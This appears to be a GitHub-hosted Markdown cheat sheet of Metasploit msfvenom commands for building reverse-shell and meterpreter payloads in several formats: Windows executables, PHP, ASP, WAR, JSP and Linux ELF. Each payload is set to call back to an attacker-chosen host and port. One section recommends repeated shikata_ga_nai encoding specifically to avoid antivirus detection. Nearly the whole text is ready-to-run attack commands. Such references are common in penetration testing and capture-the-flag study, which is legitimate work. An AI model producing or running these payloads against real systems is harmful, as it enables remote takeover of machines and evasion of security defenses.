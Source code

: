 # Metasploit Revershell CheatSheet
```sh
Msfvenom: 
msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f exe -o shell_reverse.exe
```
## To avoid AV detection, use encryption
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

## php
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<your ip> LPORT=<your port> -f raw > shell.php
```

## ASP
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<your port> -f asp > shell.asp
```

## War
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f war > shell.war
```

## JSP
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f raw > shell.jsp

```

## Binary
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

## List linux meterpreter payloads
```sh
msfvenom --list | grep xxxx
```

## Send linux shell to meterpreter
```sh
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost= lport= -f elf -o msf.bin (set multi handler then)
```